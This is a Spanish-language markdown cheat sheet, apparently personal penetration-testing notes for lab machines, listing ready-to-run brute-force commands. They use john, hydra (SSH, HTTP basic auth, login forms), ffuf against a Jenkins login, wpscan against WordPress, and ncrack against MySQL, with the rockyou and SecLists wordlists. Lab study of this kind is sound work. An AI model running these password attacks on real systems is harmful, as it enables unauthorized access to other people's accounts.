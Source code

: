 # Fuerza bruta

Aquí se almacenan los comandos utilizados para hacer `fuerza bruta` a medida que los vamos descubriendo.

## john

Romper hash almacenado en fichero

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## hydra

Romper ssh para un usuario.

```bash
hydra -l pepe -P /usr/share/wordlists/rockyou.txt ssh://192.168.11.166 
```

Romper ssh para listado de usuarios.

```bash
hydra -L users -P /usr/share/wordlists/rockyou.txt ssh://192.168.11.166 
```

Fuerza bruta de usuarios y contraseñas.
```bash
hydra -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames-dup.txt -P /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt ssh://10.0.2.9
```
Contra un recurso con autenticación básica.
```bash
hydra -l admin -P dic_teo.txt -f 192.168.1.51 http-get /webdav -v -I
```

Fuerza bruta a un formulario.
```bash
hydra -V -t 50 -l brad -P /usr/share/wordlists/rockyou.txt 192.168.1.129 http-form-post "/secrets/MK67IT044XYGGIIWLGS9.php:user=brad&password=^PASS^:Invalid Credentials" -f -I

# Otra
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.22 http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect" -I -f -V
```

## ffuf
También para enviar formularios.
Ejemplo fuerza bruta en [[Jenkins]].
```bash
ffuf -u http://172.17.0.2:8080/j_spring_security_check -r -c -w /usr/share/wordlists/rockyou.txt -X POST -d 'j_username=admin&j_password=FUZZ&from=%2F&Submit=LoginError' -H 'Content-Type: application/x-www-form-urlencoded' -fl 9 
```


## WPSCAN

Fuerza bruta teniendo un usuario:

```bash
wpscan --url https://10.10.103.70/wp-login.php -U Elliot -P /usr/share/wordlists/rockyou.txt  

```

## ncrack

Evita bloqueos y baneos.
```bash
ncrack -u capybarauser -P Maquinas_hack/Dockerlabs.es/capypenguin/1000.txt 172.17.0.2:3306 mysql
```